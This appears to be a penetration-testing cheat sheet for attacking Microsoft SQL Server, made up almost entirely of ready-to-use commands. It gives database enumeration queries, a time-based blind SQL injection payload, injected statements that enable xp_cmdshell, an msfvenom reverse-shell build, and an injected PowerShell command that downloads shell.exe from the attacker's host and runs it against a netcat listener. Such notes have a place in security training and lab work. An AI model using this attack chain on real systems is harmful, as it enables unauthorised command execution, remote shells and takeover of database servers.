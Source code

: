 # MSSQL

{% code overflow="wrap" %}
```sh
impacket-mssqlclient {username]:{password}@192.168.50.18 -windows-auth
```
{% endcode %}

```sql
SELECT @@version;
SELECT name FROM sys.databases;
SELECT * FROM offsec.information_schema.tables;
select * from offsec.dbo.users;
#where offsec is db name and users is table name
```

### <mark style="background-color:purple;">Blind SQLi</mark>

```sql
' WAITFOR DELAY '0:0:5'--
```

### <mark style="background-color:purple;">Command Execution - xp\_cmdshell</mark>

enable xp\_cmdshell:

```sql
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

```sql
EXECUTE xp_cmdshell 'whoami';
```

#### SQLi command execution

enable xp\_cmdshell via sqli:

{% code overflow="wrap" %}
```sql
'; EXECUTE sp_configure 'show advanced options', 1; RECONFIGURE; EXECUTE sp_configure 'xp_cmdshell', 1; RECONFIGURE; -- -
```
{% endcode %}

create reverse shell payload:

{% code overflow="wrap" %}
```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.215 LPORT=4444 -f exe -o shell.exe
```
{% endcode %}

upload reverse shell payload via sqli:

{% code overflow="wrap" %}
```sql
'; EXECUTE xp_cmdshell "powershell.exe wget http://kali_ip/shell.exe -OutFile c:\Users\Public\shell.exe" -- -
```
{% endcode %}

execute payload:

```sh
nc -lvnp 4444
```

{% code overflow="wrap" %}
```sql
'; EXECUTE xp_cmdshell "powershell.exe c:\Users\Public\shell.exe" -- 
```
{% endcode %}
